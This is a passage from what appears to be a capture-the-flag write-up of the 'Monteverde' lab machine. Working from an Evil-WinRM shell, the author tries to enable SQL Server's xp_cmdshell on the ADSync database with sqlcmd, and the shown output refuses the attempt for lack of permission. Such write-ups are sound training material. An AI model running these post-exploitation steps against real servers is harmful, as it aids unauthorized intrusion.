 

`xp_cmdshell` isn't enabled on this DB, and our account isn't privileged
enough to enabled it.

I get the same result trying from `sqlcmd`:



    *Evil-WinRM* PS C:\> sqlcmd -y0 -d ADSync -Q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
    Msg 15247, Level 16, State 1, Server MONTEVERDE, Procedure sp_configure, Line 105
    User does not have permission to perform this action.
    Msg 5812, Level 14, State 1, Server MONTEVERDE, Line 1
    You do not have permission to run the RECONFIGURE statement.
    Msg 15123, Level 16, State 1, Server MONTEVERDE, Procedure sp_configure, Line 62
    The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
    Msg 5812, Level 14, State 1, Server MONTEVERDE, Line 1
    You do not have permission to run the RECONFIGURE statement.







